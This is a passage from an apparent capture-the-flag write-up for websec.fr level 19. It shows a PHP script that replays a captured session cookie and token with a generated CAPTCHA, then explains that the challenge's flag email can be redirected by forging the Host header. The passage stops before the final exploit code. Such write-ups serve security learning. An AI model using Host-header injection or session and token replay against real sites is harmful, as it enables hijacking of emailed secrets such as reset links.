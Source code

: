 ```php
}

// --- Step 3: Generate CAPTCHA ---
$captcha = generate_random_text(ceil(255 / 10.0));
echo "[+] Generated CAPTCHA: $captcha\n";

// --- Step 4: POST request with PHPSESSID ---
$post_data = http_build_query([
    "captcha" => $captcha,
    "submit" => "Submit",
    "token" => $captured_token
]);

$opts = [
    "http" => [
        "method"  => "POST",
        "header"  => "Content-type: application/x-www-form-urlencoded\r\nCookie: PHPSESSID=$php_sessid\r\n",
        "content" => $post_data
    ]
];

$context = stream_context_create($opts);
$response = file_get_contents("https://websec.fr/level19/index.php", false, $context);

echo "[+] Server response:\n$response\n";
```


When doing that, we get the message that the email got sent, however, we didn't retrieve the flag:

![email sent](./images/level19_email_sent.png)


Let's look again in the email sending funcinnallty:
```php
$email_addr = 'level19' . '@' . $_SERVER['HTTP_HOST'];  // less hassle if we move to another domain
send_flag_by_email ($email_addr);
```

The domain it sends the email to comes from `$_SERVER['HTTP_HOST']`, however, we can set this parameter using the `HOST` header!

Let's trying and giving it some different domain, and this will be our final code:

